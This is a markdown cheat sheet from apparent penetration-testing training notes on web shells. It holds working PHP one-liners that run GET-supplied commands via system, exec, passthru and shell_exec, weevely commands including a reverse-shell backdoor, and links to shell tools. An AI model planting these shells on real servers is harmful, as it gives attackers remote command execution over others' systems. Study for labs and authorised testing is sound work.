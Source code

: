 # Web shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨

For JavaScript, you need to find a way for the website to execute your web shell. For PHP, visit the web shell URL.

⚠️ Password protect your webshells during assignments and/or randomize the parameter name <small>(e.g., don't use `cmd`)</small>.
</div><div>

On Kali, you can use the preinstalled web shells in `wordlists`, or install and use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).

```shell!
$ ls /usr/share/webshells
$ ls /usr/share/seclists/Web-Shells/
$ ls /usr/share/laudanum/ # edit and add the client (you?) IP
```

You may use the web shell to pop a [reverse shell](reverse_shell.md). Some payloads may not work smoothly according to the target configuration. Try:

```ps
bash -c "<reverse shell payload here>"
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### PHP — shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### PHP — weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) <small>(3.3k ⭐)</small>.

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

<br>

#### PHP — phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.9k ⭐, 2018 🪦)</small>.

<br>

#### PHP — wwwolf

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

You can use the semi-interactive [wwwolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) <small>(0.6k ⭐, 2017 🪦)</small>.

<br>

#### PHP — p0wny

[![pivoting_tunneling_port_forwarding](../../../_badges/htb/pivoting_tunneling_port_forwarding.svg)](https://academy.hackthebox.com/course/preview/pivoting-tunneling-and-port-forwarding)

You can use the semi-interactive [p0wny web shell](https://github.com/flozz/p0wny-shell) <small>(2.3k ⭐)</small>.
</div><div>

#### PHP — preg_replace

[![php_preg_replace](../../../_badges/rootme/web_server/php_preg_replace.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

In PHP < 7.0.0, we could execute PHP code in `preg_replace` for each match found <small>(since PHP 5.5, there is a deprecation warning)</small>.

```php!
<?php
echo preg_replace('/a/e', 'system("whoami");', 'a');
```

<br>

#### PHP — exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### PHP — passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### PHP — system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```

#### PHP — LD_PRELOAD

Refer to [PHP mail() and putenv() bypass](/programming-languages/web/php/_general/index.md#php-mail-and-putenv-bypass).
</div></div>

<hr class="sep-both">

## C#

<div class="row row-cols-lg-2"><div>

#### C# — Antak

[![active_directory_enumeration_attacks](../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can find [antak.aspx here](https://github.com/samratashok/nishang/blob/master/Antak-WebShell/Readme.md) <small>(9.1k ⭐)</small>.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
* [webwrap](https://github.com/mxrch/webwrap)
* IBM Websphere Application Server ([article](https://wya.pl/2021/10/18/shells-and-soap-websphere-deserialization-to-rce/), system:manager war)
* Axis2 aar
</div><div>
</div></div>